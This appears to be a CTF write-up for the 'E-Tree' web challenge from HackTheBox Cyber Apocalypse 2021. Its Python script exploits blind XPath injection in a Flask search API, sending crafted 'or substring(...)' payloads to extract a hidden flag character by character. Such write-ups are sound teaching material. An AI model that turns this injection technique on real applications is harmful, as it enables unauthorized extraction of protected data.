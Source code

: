 ```yaml
---
name: E-Tree (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for E-Tree (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# E-Tree

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=2162s "HTB Cyber Apocalypse CTF 2021: E-Tree")

## Challenge Description

> E.Tree was a Python Flask application that used XPATH to parse XML files. We were presented with an example XML file from where we could see that some users have an additional selfDestructCode element set. Knowing this, we were able to do an error-based XPATH injection to determine the flag.

## Solution

```py
import requests
import string
from time import sleep

flag_pt1 = "CHTB{Th3_3xTr4_l3v3l_"
flag = "4Cc3s$_c0nTr0l}"
url = "http://139.59.168.47:30661/api/search"

# Each time a successful login is seen, restart loop
restart = True
count = len(flag) + 1

while restart:
    restart = False
    for char in "_" + string.ascii_letters + string.digits + "!#$%^()@{}£&*-=+.,~:;[]":
		# Update position index for the 2 seperate flag parts
        post_data = {"search": "' or substring((/military/district[position()=3]/staff[position()=2]/selfDestructCode)," + str(count) + ",1)=\"" + char + "\" or ''=' "}
        print(post_data)
        try:
            r = requests.post(url, json=post_data, headers={'Content-Type': 'application/json'})
        except BaseException:
            pass
        # Correct char results in "successful password"
        if 'exists' in r.text:
            restart = True
            count += 1
            flag += char
            print(flag)
            # Exit if "}" gives a valid redirect
            if char == "}":
                print("\nFlag: " + flag)
                exit(0)
            break

        sleep(1)
```

Flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
